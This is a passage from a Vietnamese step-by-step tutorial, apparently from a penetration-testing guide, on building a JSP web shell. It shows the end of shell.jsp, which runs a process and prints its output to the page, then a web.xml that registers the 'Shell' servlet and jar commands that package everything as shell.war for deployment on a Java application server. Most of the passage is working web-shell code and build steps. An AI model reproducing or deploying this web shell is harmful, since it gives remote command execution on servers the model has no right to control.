 ```js
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
            }
        }
        %>
    </pre>
    </BODY>
</HTML>
```

3. Lưu và đóng tệp sau khi hoàn thành.
### **Bước 3: Tạo tệp `web.xml`**

1. Mở tệp `web.xml` mà bạn đã tạo trong thư mục `WEB-INF`.
```js
nano myapp/WEB-INF/web.xml
```

2. Thêm nội dung sau vào tệp `web.xml` để khai báo servlet cho JSP:
```js
<?xml version="1.0" ?>
<web-app xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
         version="2.4">

    <servlet>
        <servlet-name>Shell</servlet-name>
        <jsp-file>/shell.jsp</jsp-file>
    </servlet>

</web-app>
```

3. Lưu và đóng tệp sau khi hoàn thành.

##### **Bước 4: Đóng gói ứng dụng thành tệp WAR**

1. Sau khi tạo `shell.jsp` và `web.xml`, bạn sẽ đóng gói ứng dụng thành tệp WAR. Chuyển đến thư mục gốc (nơi chứa thư mục `myapp`), sau đó chạy lệnh sau để tạo tệp WAR:
```js
jar cvf shell.war -C myapp .
```

2. Kiểm tra lại tệp WAR đã được tạo chưa:
```js
ls
```
